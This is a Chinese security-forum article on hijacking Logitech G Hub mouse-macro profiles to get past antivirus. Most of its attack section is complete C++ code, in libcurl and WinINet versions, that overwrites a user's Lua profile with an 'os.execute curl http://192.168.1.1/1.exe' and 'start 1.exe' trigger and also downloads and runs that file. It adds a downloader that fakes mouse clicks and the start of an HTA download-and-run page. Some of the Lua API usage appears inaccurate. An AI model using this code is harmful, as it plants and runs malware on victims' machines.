







# 另辟蹊径的bypass—罗技-先知社区

> **来源**: https://xz.aliyun.com/news/16637  
> **文章ID**: 16637

---

本代码仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。



感谢**1759800277199196**的反馈，本文对您提出的宝贵建议进行了采纳，写下这篇对罗技鼠标宏的利用的文章，一定程度上实现了1.2.3的建议

## 环境的准备:LGhub

### 什么是LGHUB？

官网：[LGHUB](https://www.logitechg.com/zh-cn/innovation/g-hub.html)



LGHUB（Logitech G Hub）是罗技（Logitech）为其G系列游戏设备开发的一款专用软件。它是一款强大且直观的工具，允许用户管理和自定义罗技品牌的外设设备，包括鼠标、键盘、耳机等。通过LGHUB，用户可以轻松调整设备的设置，比如灯光效果、DPI灵敏度、按键绑定以及宏功能等，从而优化游戏体验。

### 罗技鼠标宏是什么？

罗技鼠标宏是一种通过LGHUB软件实现的功能，允许用户将一系列复杂的操作录制并绑定到鼠标的某个按钮上。一旦绑定，用户只需按下对应的按钮，鼠标就会自动执行预设的一系列操作。该功能非常适合需要重复输入相同命令或操作的场景，比如快速连击、复杂技能释放等。

#### 鼠标宏的核心功能包括：

1. **动作录制**：记录用户的键盘按键、鼠标点击、延迟时间等操作。
2. **自定义编辑**：用户可以调整录制内容，优化操作流畅性。
3. **绑定按键**：将宏指令绑定到鼠标的可编程按键上。
4. **高级功能支持**：支持循环宏、按住宏（按住键触发）、触发停止等模式。

下载地址：[下载地址](https://download.logitech.com.cn/web/ftp/pub/techsupport/gaming/lghub_installer.exe)

## LGHub 宏脚本利用-json

在默认情况下，LGHub 的宏脚本通常存储在以下目录中，具体路径根据操作系统的不同可能有所不同：

#### Windows

```
C:\Users\<用户名>\AppData\Local\LGHUB\profiles
```

#### macOS

```
~/Library/Application Support/LGHUB/profiles
```

### 如何修改宏脚本

1. **找到宏文件**:

* 在上述路径中找到您的设备对应的配置文件（通常是一个以设备名称为文件夹名的文件夹）。
* 打开该文件夹，您应该能够看到 `.lgprofile` 文件，其中包含设备配置和宏脚本。

1. **修改宏代码**:

* 宏脚本通常会存储为 JSON 格式。您可以用文本编辑器（如 Notepad++ 或 Visual Studio Code）打开这些文件。
* 查找包含宏动作的部分，通常会有按键、时间延迟等信息。

**示例**（一个简单的宏示例）:

```
{
  "macroName": "example_macro",
  "actions": [
    {
      "action": "press",
      "key": "a",
      "duration": 50
    },
    {
      "action": "wait",
      "time": 100
    },
    {
      "action": "press",
      "key": "b",
      "duration": 50
    }
  ]
}
```

在这个示例中，宏按顺序执行：按下 "a" 键，等待 100 毫秒，然后按下 "b" 键。

1. **保存和应用修改**:

* 修改完宏脚本后，保存文件并重新启动 LGHub，您应该能看到新的宏配置应用到您的设备上。

## `.lua` 文件的利用

`.lua` 文件通常用于定义复杂的宏和自动化脚本，它们允许用户编写更高级的逻辑，比如条件判断、循环、事件响应等，远超 LGHub 内置的简单宏功能。通过 Lua 脚本，您可以为您的 Logitech 设备创建定制化的操作流程。

### 如何修改 `.lua` 文件

1. **找到** `**.lua**` **文件**:

* `.lua` 文件通常与 `.lgprofile` 文件一同存储在 LGHub 的配置文件夹中。
* 路径通常是类似这样的：

* **Windows**: `C:\Users\<用户名>\AppData\Local\LGHUB\profiles`
* **macOS**: `~/Library/Application Support/LGHUB/profiles`

2. **修改** `**.lua**` **文件**:

* 使用文本编辑器（如 Notepad++、Sublime Text 或 Visual Studio Code）打开 `.lua` 文件。
* 在文件中，您会看到 Lua 脚本代码。以下是一个简单的 `.lua` 文件示例，展示如何通过 Lua 脚本控制鼠标和键盘操作：

```
-- 定义一个简单的宏
function on_event(event)
    if event == "MOUSE_BUTTON_1" then
        -- 按下鼠标左键时，模拟按下“a”键
        PressKey("a")
        ReleaseKey("a")
    end
end
```

在这个示例中，脚本定义了一个简单的事件处理函数 `on_event`，当鼠标左键被按下时，它会模拟按下并释放键盘上的 "a" 键。

3. **保存并测试宏**:

* 完成修改后，保存 `.lua` 文件，并确保它与 LGHub 配置文件一起保存。
* 在 LGHub 中，您可以加载这个 `.lua` 脚本文件到您的设备配置，并进行测试。

### 注意事项

* **语法和函数**: 确保您了解 Lua 脚本的语法。如果不熟悉 Lua，您可以参考 [Lua官方文档](https://www.lua.org/manual/5.1/) 来学习基本的语法和函数。
* **调试**: 修改 `.lua` 文件时，可以通过打印输出或日志记录来调试脚本。例如，使用 `OutputLogMessage` 函数将调试信息输出到日志文件中，帮助您检查脚本的行为。

### 示例代码

以下是一些常见的 `.lua` 脚本片段，展示了如何进行简单的操作：

#### 示例 1: 按下和释放某个键

```
function on_event(event)
    if event == "MOUSE_BUTTON_1" then
        -- 按下 A 键
        PressKey("a")
        Sleep(100)  -- 等待 100 毫秒
        -- 释放 A 键
        ReleaseKey("a")
    end
end
```

#### 示例 2: 自动点击

```
function on_event(event)
    if event == "MOUSE_BUTTON_1" then
        while true do
            PressMouseButton(1)  -- 按下鼠标左键
            Sleep(100)           -- 等待 100 毫秒
            ReleaseMouseButton(1) -- 释放鼠标左键
            Sleep(100)           -- 等待 100 毫秒
        end
    end
end
```

通过修改 `.lua` 文件，您可以非常灵活地控制和自动化您的 Logitech 设备。

## 利用思路

罗技宏自带的默认配置如下：



有些用户也会对宏进行修改来满足日常需求，而且罗技本身自带启动，可以借用罗技来完成劫持，我们需要做的就是获取用户现在默认的配置，进入指定目录，修改对应宏代码

## 代码实现

### 提示：

1. **从网络下载文件**：可以使用 `libcurl` 或 Windows API 来下载文件。
2. **修改** `**.lua**` **文件**：通过 C++ 打开文件并修改内容。
3. **执行文件**：可以使用 Windows API 执行文件。

### 1. 获取 LGHub 配置文件夹路径

首先，我们需要通过查询环境变量或常规文件路径找到 LGHub 配置文件的存储位置。

### 2. 修改 `.lua` 文件

通过读取、修改和写回 Lua 文件，我们可以更改脚本逻辑，使其在按下 "Tab" 键时执行所需的操作。

### 3. 下载文件并执行

使用 C++ 结合 `libcurl` 或 Windows API 下载文件，并使用 `CreateProcess` 等 API 执行下载的文件。

### 完整 C++ 示例（框架）

```
#include <iostream>
#include <fstream>
#include <string>
#include <Windows.h>
#include <curl/curl.h> // You need to link to libcurl

// Helper function to download a file using libcurl
size_t write_callback(void* contents, size_t size, size_t nmemb, void* userp) {
    std::ofstream* outfile = (std::ofstream*)userp;
    outfile->write((char*)contents, size * nmemb);
    return size * nmemb;
}

bool download_file(const std::string& url, const std::string& output_filename) {
    CURL* curl;
    CURLcode res;
    std::ofstream out_file(output_filename, std::ios::binary);

    if (!out_file.is_open()) {
        std::cerr << "Failed to open output file: " << output_filename << std::endl;
        return false;
    }

    curl_global_init(CURL_GLOBAL_DEFAULT);
    curl = curl_easy_init();

    if (curl) {
        curl_easy_setopt(curl, CURLOPT_URL, url.c_str());
        curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, write_callback);
        curl_easy_setopt(curl, CURLOPT_WRITEDATA, &out_file);

        res = curl_easy_perform(curl);
        if (res != CURLE_OK) {
            std::cerr << "CURL download failed: " << curl_easy_strerror(res) << std::endl;
            out_file.close();
            curl_easy_cleanup(curl);
            return false;
        }

        out_file.close();
        curl_easy_cleanup(curl);
        std::cout << "Download successful!" << std::endl;
        return true;
    }

    curl_global_cleanup();
    return false;
}

void modify_lua_script(const std::string& lua_file_path) {
    std::ifstream lua_file_in(lua_file_path);
    std::string lua_content;

    if (lua_file_in.is_open()) {
        std::string line;
        while (std::getline(lua_file_in, line)) {
            lua_content += line + "
";
        }
        lua_file_in.close();
    }

    // Modify the lua content
    // Here, we inject code to download and run the exe when Tab is pressed
    std::string new_code = R"(
function on_event(event)
    if event == "TAB" then
        os.execute('curl -O http://192.168.1.1/1.exe')  -- Downloads 1.exe
        os.execute('start 1.exe')  -- Runs the downloaded file
    end
end
)";

    // Replace or append the necessary code here
    lua_content = new_code;

    std::ofstream lua_file_out(lua_file_path);
    if (lua_file_out.is_open()) {
        lua_file_out << lua_content;
        lua_file_out.close();
        std::cout << "Lua script modified successfully!" << std::endl;
    } else {
        std::cerr << "Failed to open Lua script for writing!" << std::endl;
    }
}

int main() {
    // Example path to the Lua script, this needs to be modified based on actual LGHub profile location
    std::string lua_file_path = "C:\Users\<username>\AppData\Local\LGHUB\profiles\your_device.luaprofile";

    // Modify the Lua script to inject the download and execute functionality
    modify_lua_script(lua_file_path);

    // Download the file from the specified URL
    std::string url = "http://192.168.1.1/1.exe";
    std::string filename = "1.exe";

    if (download_file(url, filename)) {
        // File downloaded, now execute it
        std::string command = "start " + filename;
        system(command.c_str());
    } else {
        std::cerr << "Failed to download the file!" << std::endl;
    }

    return 0;
}
```

#### 解释代码：

1. **下载文件**：使用 `libcurl` 库从指定的 URL（`192.168.1.1/1.exe`）下载文件并保存为 `1.exe`。要使用 `libcurl`，您需要安装并链接到该库。
2. **修改** `**.lua**` **文件**：该代码示例修改了 Lua 脚本，添加了当按下 "Tab" 键时下载并执行文件的功能。
3. **执行文件**：一旦文件成功下载，使用 Windows `system` 命令启动下载的 `.exe` 文件。

#### 编译和运行：

* 您需要确保链接了 `libcurl` 库（如果用于下载文件）。您可以从 [libcurl官网](https://curl.se/libcurl/) 获取它。
* 编译时，链接 `libcurl` 和标准的 C++ 库。
* 替换代码中的路径以适应您自己的文件结构，特别是 LGHub 配置路径。

### 如果没有Curl库，那么用VS自带的wininet：

下面的示例使用 **WinINet** 库来完成从 URL 下载文件的操作。

### **使用** `**WinINet**` **库下载文件并执行**

```
#include <iostream>
#include <fstream>
#include <string>
#include <Windows.h>
#include <wininet.h>

// Link with the WinINet.lib
#pragma comment(lib, "wininet.lib")

// Function to download a file using WinINet API
bool download_file(const std::string& url, const std::string& output_filename) {
    HINTERNET hInternet, hConnect;
    DWORD bytesRead;
    char buffer[1024];
    std::ofstream out_file(output_filename, std::ios::binary);

    if (!out_file.is_open()) {
        std::cerr << "Failed to open output file: " << output_filename << std::endl;
        return false;
    }

    // Initialize WinINet session and connection
    hInternet = InternetOpen(L"FileDownloader", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (hInternet == NULL) {
        std::cerr << "InternetOpen failed: " << GetLastError() << std::endl;
        return false;
    }

    // Open connection to the server
    hConnect = InternetOpenUrlA(hInternet, url.c_str(), NULL, 0, INTERNET_FLAG_RELOAD, 0);
    if (hConnect == NULL) {
        std::cerr << "InternetOpenUrlA failed: " << GetLastError() << std::endl;
        InternetCloseHandle(hInternet);
        return false;
    }

    // Read and write the file in chunks
    while (InternetReadFile(hConnect, buffer, sizeof(buffer), &bytesRead) && bytesRead > 0) {
        out_file.write(buffer, bytesRead);
    }

    out_file.close();
    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);

    std::cout << "Download successful!" << std::endl;
    return true;
}

// Function to modify the Lua script
void modify_lua_script(const std::string& lua_file_path) {
    std::ifstream lua_file_in(lua_file_path);
    std::string lua_content;

    if (lua_file_in.is_open()) {
        std::string line;
        while (std::getline(lua_file_in, line)) {
            lua_content += line + "
";
        }
        lua_file_in.close();
    }

    // Modify the Lua content to download and run the exe when Tab is pressed
    std::string new_code = R"(
function on_event(event)
    if event == "TAB" then
        os.execute('start http://192.168.1.1/1.exe')  -- Downloads and runs 1.exe
    end
end
)";

    // Replace or append the necessary code here
    lua_content = new_code;

    std::ofstream lua_file_out(lua_file_path);
    if (lua_file_out.is_open()) {
        lua_file_out << lua_content;
        lua_file_out.close();
        std::cout << "Lua script modified successfully!" << std::endl;
    } else {
        std::cerr << "Failed to open Lua script for writing!" << std::endl;
    }
}

int main() {
    // Example path to the Lua script, this needs to be modified based on actual LGHub profile location
    std::string lua_file_path = "C:\Users\<username>\AppData\Local\LGHUB\profiles\your_device.luaprofile";

    // Modify the Lua script to inject the download and execute functionality
    modify_lua_script(lua_file_path);

    // Download the file from the specified URL
    std::string url = "http://192.168.1.1/1.exe";
    std::string filename = "1.exe";

    if (download_file(url, filename)) {
        // File downloaded, now execute it
        std::string command = "start " + filename;
        system(command.c_str());
    } else {
        std::cerr << "Failed to download the file!" << std::endl;
    }

    return 0;
}
```

#### 代码说明：

1. **下载文件****：**

* **使用** `**WinINet**` **API 中的** `**InternetOpen**` **和** `**InternetOpenUrlA**` **函数来初始化网络连接和访问 URL。**
* **使用** `**InternetReadFile**` **读取文件内容，并通过** `**ofstream**` **写入本地文件。**
* **该方法直接利用 Windows 内置的网络库，不依赖外部库。**

2. **修改 Lua 脚本：**

* **读取并修改** `**.lua**` **文件，以便当 "Tab" 键被按下时，执行下载和运行外部文件的命令。**
* **我们通过 Lua 脚本的** `**os.execute**` **来调用** `**start**` **命令，这将下载并运行** `**1.exe**`**。**

3. **执行文件：**

* **使用** `**system**` **函数启动下载的** `**.exe**` **文件。**

#### 编译和运行：

* **编译时，请确保在项目设置中链接了** `**wininet.lib**`**。**

* **在 Visual Studio 中，您可以在** **项目属性** **->** **链接器** **->** **输入** **->** **附加依赖项** **中添加** `**wininet.lib**`**。**

* **替换 Lua 脚本路径和其他配置，确保它们指向正确的文件和路径。**

## 如果没有罗技鼠标宏怎么办

### 思路一：下载者+模拟键鼠(可以使用窗口定位，代码坐标参数参考)

**·参考**[**NtUserInjectKeyboardInput函数绕过杀软屏幕锁定模拟键鼠**](https://xz.aliyun.com/t/16483?time__1311=GuD%3DqmxGxh7D%2FWXKBK0QDkK9%2BqmThb2mD)

1. **下载文件**：使用 Windows 内置的 `WinINet` 库或其他方法下载文件。
2. **打开下载的文件**：使用 `ShellExecute` 或 `CreateProcess` 打开下载的 `.exe` 文件。
3. **模拟鼠标点击**：使用 Windows API 模拟鼠标事件。

下面是一个完整的 C++ 示例代码，展示了如何执行这些操作：



### 完整的 C++ 示例代码

```
#include <iostream>
#include <fstream>
#include <string>
#include <Windows.h>
#include <wininet.h>
#include <shellapi.h>

#pragma comment(lib, "wininet.lib")

// Function to download a file using WinINet API
bool download_file(const std::string& url, const std::string& output_filename) {
    HINTERNET hInternet, hConnect;
    DWORD bytesRead;
    char buffer[1024];
    std::ofstream out_file(output_filename, std::ios::binary);

    if (!out_file.is_open()) {
        std::cerr << "Failed to open output file: " << output_filename << std::endl;
        return false;
    }

    // Initialize WinINet session and connection
    hInternet = InternetOpen(L"FileDownloader", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (hInternet == NULL) {
        std::cerr << "InternetOpen failed: " << GetLastError() << std::endl;
        return false;
    }

    // Open connection to the server
    hConnect = InternetOpenUrlA(hInternet, url.c_str(), NULL, 0, INTERNET_FLAG_RELOAD, 0);
    if (hConnect == NULL) {
        std::cerr << "InternetOpenUrlA failed: " << GetLastError() << std::endl;
        InternetCloseHandle(hInternet);
        return false;
    }

    // Read and write the file in chunks
    while (InternetReadFile(hConnect, buffer, sizeof(buffer), &bytesRead) && bytesRead > 0) {
        out_file.write(buffer, bytesRead);
    }

    out_file.close();
    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);

    std::cout << "Download successful!" << std::endl;
    return true;
}

// Function to simulate a mouse click at the center of the screen
void simulate_mouse_click_at_center() {
    // Get the screen dimensions
    int screen_width = GetSystemMetrics(SM_CXSCREEN);
    int screen_height = GetSystemMetrics(SM_CYSCREEN);

    // Calculate the center of the screen
    int center_x = screen_width / 2;
    int center_y = screen_height / 2;

    // Move the mouse to the center of the screen
    SetCursorPos(center_x, center_y);

    // Simulate mouse left button down
    INPUT input = {0};
    input.type = INPUT_MOUSE;
    input.mi.dx = (LONG)(center_x * (65536.0f / screen_width));  // Mouse move X
    input.mi.dy = (LONG)(center_y * (65536.0f / screen_height)); // Mouse move Y
    input.mi.dwFlags = MOUSEEVENTF_LEFTDOWN;
    SendInput(1, &input, sizeof(INPUT));

    // Simulate mouse left button up (click)
    input.mi.dwFlags = MOUSEEVENTF_LEFTUP;
    SendInput(1, &input, sizeof(INPUT));

    std::cout << "Mouse clicked at the center of the screen!" << std::endl;
}

int main() {
    // Download the installer from the specified URL
    std::string url = "https://download.logitech.com.cn/web/ftp/pub/techsupport/gaming/lghub_installer.exe";
    std::string output_filename = "C:\Users\<username>\Downloads\lghub_installer.exe"; // Adjust path as necessary

    if (download_file(url, output_filename)) {
        // Download successful, now run the installer
        if (ShellExecuteA(NULL, "open", output_filename.c_str(), NULL, NULL, SW_SHOWNORMAL) > (HINSTANCE)32) {
            std::cout << "Installer opened successfully!" << std::endl;

            // Wait for a short period to ensure the window is in focus
            Sleep(2000); // Adjust the sleep time as necessary

            // Simulate mouse click at the center of the screen
            simulate_mouse_click_at_center();
        } else {
            std::cerr << "Failed to open the installer!" << std::endl;
        }
    } else {
        std::cerr << "Failed to download the file!" << std::endl;
    }

    return 0;
}
```

### 代码说明：

1. **下载文件**：

* 使用 `WinINet` API 下载文件。文件会被保存到用户的 `Downloads` 文件夹，路径为 `C:\\Users\\<username>\\Downloads\\lghub_installer.exe`（请根据实际路径进行修改）。

2. **打开下载的文件**：

* 使用 `ShellExecuteA` 打开下载的 `.exe` 文件，这将启动安装程序。`SW_SHOWNORMAL` 用于打开程序时让它显示出来。

3. **模拟鼠标点击**：

* `simulate_mouse_click_at_center()` 函数会将鼠标移动到屏幕的中心位置，然后模拟鼠标左键点击。使用了 `SendInput` 函数模拟鼠标事件。

### 编译和运行：

* 这个代码使用了 **WinINet API** 来下载文件，因此需要链接 `wininet.lib` 库。在 Visual Studio 中，您需要在 **项目属性** -> **链接器** -> **输入** -> **附加依赖项** 中添加 `wininet.lib`。
* 请确保将路径 `C:\\Users\\<username>\\Downloads\\lghub_installer.exe` 中的 `<username>` 替换为您实际的 Windows 用户名。

### 思路2：利用HTA下载，文章仅提供下载部分，执行不提供

·参考[HTA的利用](https://xz.aliyun.com/t/16946?time__1311=Gui%3D0KiKYIkx%2FD0lFGkDuCKHD%3DjBDyn%2BD)

#### 1. **HTA 标签**

```
<HTA:APPLICATION
    ID="app"
    APPLICATIONNAME="DownloadAndRunExe"
    BORDER="thin"
    BORDERSTYLE="normal"
    CAPTION="yes"
    CONTEXTMENU="no"
    MAXIMIZEBUTTON="no"
    MINIMIZEBUTTON="no"
    SHOWINTASKBAR="yes"
    SINGLEINSTANCE="yes"
    SYSMENU="yes"
/>
```

* `HTA:APPLICATION` 是指定当前 HTML 页面为 HTA 应用程序，这使得该 HTML 页面具有与传统 HTML 页面不同的功能，尤其是可以访问 Windows 操作系统的更多功能。
* `ID="app"`：给 HTA 应用设置一个标识符。
